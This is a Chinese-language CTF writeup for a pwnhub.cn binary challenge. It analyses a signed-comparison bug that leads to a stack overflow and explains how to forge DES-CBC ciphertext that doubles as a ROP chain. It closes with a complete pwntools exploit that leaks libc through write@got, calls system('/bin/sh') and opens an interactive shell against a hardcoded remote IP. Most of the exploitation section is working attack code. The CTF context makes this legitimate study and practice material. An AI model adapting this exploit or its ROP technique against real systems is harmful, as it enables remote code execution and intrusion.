 ```yaml
---
layout: post
title: pwnhub.cn 神秘人的捉弄 pwn Writeup
categories: CTF
description: integeroverflow
keywords: CTF, writeup
---
```


# pwnhub.cn 神秘人的捉弄 pwn writeup

这个题目输入数据必须为题目中指定的数据包的格式，否则程序会直接exit。如果输入符合格式，v 会让你很粗对包进行解析，根据解析道结果继续读入新的包进行进一步解析，之后会开启socket进行IO。

## 漏洞分析

本题有两个漏洞，一个是栈溢出漏洞，一个是堆溢出漏洞(getname的时候len+1可能导致malloc(0))，只不过可以利用的只有栈溢出漏洞。栈溢出漏洞存在于sub_401281中

```
  if ( *((_BYTE *)src + readlen - 1) > 8 )
  {
    write(1, &error2, 2uLL);
    exit(0);
  }
  readlen -= *((char *)src + readlen - 1);
  memcpy(s1, src, readlen);
```


  在代码**readlen -= \*((char \*)src + readlen - 1)**中，如果**\*((char \*)src + readlen - 1)**为负数，则readlen会不减反增，从而导致readlen最大可能为0x178,而s1是栈上的0x100大小的buffer，因此**memcpy(s1, src, readlen);**会产生栈溢出。
。
  
  值得注意的是，在比较语句**if ( \*((_BYTE \*)src + readlen - 1) > 8 )**中，8是有符号数，所以**\*((char \*)src + readlen - 1)**为负数不会使之成立，这也是漏洞存在的根本原因。如果这里的8是无符号的话（就像上一个长相差不多的if），那这里就不会存在漏洞了。
  
## 漏洞利用

这题的漏洞利用有一个比较烦的地方就是跟payload构造比较麻烦：

1. 存在漏洞的函数要求我们的数据为**"\x01"+hex(len(data1))+data1+hex(len(data2))+data2**。其中data1和data2为长度最大为0xf8的DES密文，且以DES CBC解密的结果的第一个分组必须为admin\x00与explorer\x00，解密结果的最后一位会作为**readlen -= \*((char \*)src + readlen - 1)**中的**\*((char \*)src + readlen - 1)**参与溢出触发的payload的构造。
2. 在**memcpy(s1, src, readlen);**中，src为攻击者可控最大为0xf8的堆上buffer，当readlen为0x178时，剩下的0x178-0xf8的内容来源于与src相邻的堆块，这个堆块存储的data2，所以要想利用栈溢出做ROP，我们必须要在CBC模式中构造一个密文本身是ROP gadget，解密出的明文的第一个分组为admin\x00的密文。

这些问题其实就是密码学的问题，第一个问题比较好解决，通过逆向可以找到key和iv，然后加密就好了。第二个的难点是如何在DES CBC中找到对应某个密文的明文。这个可能会卡一会，但是花些时间演算一下也不难解决。

接下来就是做ROP了，ROP调用wirte函数把write_got的内容打出来，并算出system和binsh的地址，然后返回main，重新触发漏洞，再次做ROP调用system(binsh)。

本来我以为这样就结束了，但是很悲催的发现好像缺少设置rdx的gadget。我发现的唯一能能比较好的设置rdx的gadget就是init函数中的万能gadget，但是由于这个题目能够用的gadget数量最多就只有8个，init函数的gadget太大（要进行2次6连pop，还要add rsp,8)，所以就很尴尬了。

```
.text:0000000000405020 loc_405020:                             ; CODE XREF: init+54j
.text:0000000000405020                 mov     rdx, r13
.text:0000000000405023                 mov     rsi, r14
.text:0000000000405026                 mov     edi, r15d
.text:0000000000405029                 call    qword ptr [r12+rbx*8]
.text:000000000040502D                 add     rbx, 1
.text:0000000000405031                 cmp     rbx, rbp
.text:0000000000405034                 jnz     short loc_405020
.text:0000000000405036
.text:0000000000405036 loc_405036:                             ; CODE XREF: init+36j
.text:0000000000405036                 add     rsp, 8
.text:000000000040503A                 pop     rbx
.text:000000000040503B                 pop     rbp
.text:000000000040503C                 pop     r12
.text:000000000040503E                 pop     r13
.text:0000000000405040                 pop     r14
.text:0000000000405042                 pop     r15
.text:0000000000405044                 retn
```

这个问题卡了我很长时间。以至于后来我手动在各个函数寻找找能够设置rdx的方法，甚至把got能直接调的函数都调了一遍，期待在函数内部可以把rdx设置妥当,结果都失败了。最后只能又回到万能gadgets，看了一下栈的布局，发现第二次6连pop的最后一次pop时，栈顶居然是main函数的地址，这是巧合么？然后第一次6连pop中的第一个pop本来是将rbx设置为0的，但是我发现rbx在pop之前也是0！这又是巧合么？这样就可以第一次6连pop第一个pop省掉了，orz。省掉第一个pop之后第二次6连pop结束后的ret就正好返回到main了。所以问题也得以解决，于是又可以愉快的ROP弹shell了。
 
## Exploit

```
from pwn import *;
from struct import pack;
from Crypto.Cipher import DES
port=12345
objname = "pwnhub"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
context(arch="amd64", os="linux")
context.log_level="debug"
context.terminal = ["tmux", "splitw", "-h"]


def attach():
    gdb.attach(io, execute="source bp")

def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    return data;

def write(data):
    io.send(str(data));
    sleep(0.1)

def writeline(data):
    io.sendline(str(data));
    sleep(0.1)

def xor(a,b,len=8):
    res=""
    for i in range(len):
        res+=(chr(ord(b[i])^ord(a[i])))
    return res
def getcrypt(ahead,p):
    #--------------------------------------- 
    #t=ahead[len(ahead-8):len(ahead)]
    #p1=dec(p)^t
    #enc(p1^t)=enc(dec(p)^t^t)=enc(dec(p))=p
    #--------------------------------------- 
    deskey="explorer";
    enc1=DES.new(deskey,2,deskey);
    enc2=DES.new(deskey,2,deskey);
    c1=enc1.encrypt(ahead+p);
    c2=enc2.decrypt(c1[0:len(ahead)]+p);
    return ahead+c2[len(ahead):len(ahead)+8];
    
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    #ROP Gadgets
    prdi=0x00404217
    writeplt=0x04008C0
    writegot=0x607020
    main=0x400add
    setpara=0x0405020 
    pppppr=0x40503b 

    deskey=0xBE00BE76EC5CE70D;
    deskey=p64(deskey);
    enc1=DES.new(deskey,2,deskey);
    s1="explorer".ljust(0xf8,"\x00")
    e1=enc1.encrypt(s1);
    
    
    enc2=DES.new("explorer",2,"explorer");
    s2="admin".ljust(8,"\x00");
    
    payload1='aaaa'+p32(7)+'caaadaaaeaaafaaa'+p64(0);
    payload1+=p64(pppppr);
    payload1+=p64(1)#rbp
    payload1+=p64(writegot)#r12   
    payload1+=p64(16);
    payload1+=p64(writegot)
    payload1+=p64(1)
    payload1+=p64(setpara)
    payload1+=p64(main)
    payload1+=p64(main)
    payload1.ljust(232,'\x41')
    payload1.ljust(232,'\x41')
    for i in range(0,len(payload1),8):
        s2=getcrypt(s2,payload1[i:i+8])
    e2=enc2.encrypt(s2.ljust(0xf8,"\x80"));
    
    p1="\x05\x05"
    write(p1);
    p2="\x02\x02\x02\x02\x02";
    write(p2);
    p3="\x01\xf8"+e1+"\xf8"+e2;
    write(p3);
    sleep(0.1);
    write_addr=readall()[2:10];
    write_addr=u64(write_addr)

    system=write_addr-0xb1340
    binsh=write_addr+0x95aa7
    print hex(system)

    enc3=DES.new("explorer",2,"explorer");
    s3="admin".ljust(8,"\x00");
    payload2='aaaa'+p32(7)+'caaadaaaeaaafaaa'+p64(0);
    payload2+=p64(prdi)+p64(binsh);
    payload2+=p64(system)
    payload2+=p64(main)
    payload2.ljust(232,'\x41')
    
    for i in range(0,len(payload2),8):
        s3=getcrypt(s3,payload2[i:i+8])
    e3=enc3.encrypt(s3.ljust(0xf8,"\x80"));

    p1="\x05\x05"
    write(p1);
    p2="\x02\x02\x02\x02\x02";
    write(p2);
    p3="\x01\xf8"+e1+"\xf8"+e3;
    write(p3);
    sleep(0.1)
    readall()
    
    io.interactive();
attack("54.222.142.77")
```